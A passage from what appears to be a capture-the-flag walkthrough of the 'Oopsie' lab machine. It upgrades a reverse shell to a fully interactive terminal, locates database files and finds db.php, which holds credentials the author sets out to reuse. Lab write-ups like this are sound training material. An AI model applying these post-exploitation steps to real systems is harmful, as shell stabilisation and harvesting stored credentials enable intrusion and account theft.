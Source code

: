 Let’s upgrade the reverse shell  as follow:
``` code
SHELL=/bin/bash script -q /dev/null
<Ctrl-Z>
stty  raw -echo
fg
reset
xterm
```

And we get the fully interactive shell:
```shell
www-data@oopsie:/$

```

### &#9702; Lateral Movement
==================

The website records are probably retrieved from a database, so it's a
good idea to check for database connection information.

Let’s check for any db file:
```shell
www-data@oopsie:/$  locate db
```


And we eventually find the “**/var/www/html/cdn-cgi/login/db.php**” file.
```shell
/var/lib/lxcf/….
/var/lib/lxcf/….
/var/lib/lxcf/….
/var/lib/man-db/….
/var/lib/mlocate/….
/var/lib/mlocate/….
/var/www/html/cdn-cgi/login/db.php
```
 


Let check the **db.php** file
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image64.png"></div> 


From the php.net manual page
“https://www.php.net/manual/en/function.mysqli-connect.php”, we see how
**mysqli_connect** function works:
```code
mysqli_connect(DB_HOST, DB_USERNAME, DB_PASSWORD,DB_NAME);" 
```

So let’s use the page credentials in db.php : 
